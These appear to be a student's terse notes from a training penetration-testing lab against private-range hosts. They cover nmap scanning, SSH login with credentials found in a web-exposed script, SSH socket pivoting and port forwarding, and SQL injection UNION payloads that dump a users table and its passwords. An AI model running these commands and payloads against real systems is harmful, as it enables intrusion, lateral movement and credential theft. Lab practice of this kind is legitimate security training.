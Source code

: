 ignore .190 
ignore 10.10.x.x
there are 5 boxes but ignore the .190
get root or admin on 2 of the boxes
.ssh/known host file 
HAST : 10.50.90.39.220

`student@lin-ops:~$ nmap -T4 -Pn -sV 10.50.39.220`
`student@lin-ops:~$ nmap --script http-enum 10.50.39.220`
see running ssh(22) and http(80)
go on web @ ip using firefox
run http enum script see different web pages
find development.py with:
```
#!/usr/bin/python3
import os
system_user=user2
user_password=EaglesIsARE78
##Developer note
#script will eventually take above system user credentials and run automated services
```
found:
"Notice: Undefined index: username in /var/www/html/login.php on line 43
Notice: Undefined index: passwd in /var/www/html/login.php on line 44
Try Again"
use creds to log in using ssh
`student@lin-ops:~$ ssh user2@10.50.39.220`
situational awareness


made MS socket
`student@lin-ops:~$ ssh -MS /tmp/red user2@10.50.39.220`

somehow found ip for new box to go to
$ cat /etc/hosts.allow
192.168.28.181 is the BestWebApp
`student@lin-ops:~$ ssh -S /tmp/red red -O forward -D9050`
`student@lin-ops:~$ ssh -S /tmp/red red -O forward -L 1601:192.168.28.181:80`
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20SELECT%20table_schema,column_name,table_name%20FROM%20information_schema.columns`
`http://0.0.0.0:1601/pick.php?product=7%20UNION%20SELECT%20user_id,name,username%20FROM%20siteusers.users`
found passwords, encoded in rot13
Aaron - apasswordyPa$$word
user2 - EaglesIsARE78
user3 - Bob4THEEapples
Lroth - anotherpassword4THEages



